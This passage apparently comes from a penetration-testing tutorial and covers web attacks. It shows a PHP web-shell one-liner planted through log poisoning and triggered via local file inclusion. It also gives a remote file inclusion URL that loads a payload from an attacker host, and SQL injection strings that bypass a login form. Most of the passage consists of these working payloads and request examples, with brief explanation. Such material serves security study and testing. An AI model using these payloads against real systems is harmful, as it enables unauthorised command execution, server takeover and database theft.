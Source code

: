 ```text
<?php echo '<pre>' . shell_exec($_GET[‘cmd’]) . '</pre>';?>
```

Although we receive a "Bad Request" in netcat, the command is stored in the server's logs.  Once logged, we can attempt command execution.

```text
http://10.34.5.34/index.php?file=c:/log/file/location.log&cmd=id
```

If successful, the successful id command will be displayed on the web page.

#### Remote File Inclusion

RFIs are less common than LFIs due to typical default server configuration restrictions.

```text
http://10.34.5.34/index.php?file=http://attackerip/evil.txt
```

If successful, we can further exploit this vulnerability to execute a number of malicious options to gain a shell on the target system

### SQL injection

SQL injection is a common vulnerability that enables attackers to inject commands and interact with databases.  While typically exploited for data leakage, SQL vulnerabilities can also lead to server compromise.

#### Detection

The first step is to find input fields on the target site that likely interact with databases, such as login field, search fields, message threads, etc.  We can use a single quote to check for potential vulnerabilities.  Ideally, this will cause an error and we'll receive an indication from the server.  

#### Authentication bypass

In normal operation we expect  a login form to query the database, something like:

```text
select * from users where name = 'admin' and password = 'password123';
```

We can manipulate the input to change how the command is processed by the database:

```text
admin' or 1=1;#
```

Which results in query modification:

```text
select * from users where name = 'admin' or 1=1;#' and password = 'password123';
```

The introduction of the single quote before the password entry removes the remainder of the statement. If  this causes errors, we can also request a fixed number of returns using the LIMIT statement.

```text
select * from users where name = 'admin' or 1=1 LIMIT 1;#
```
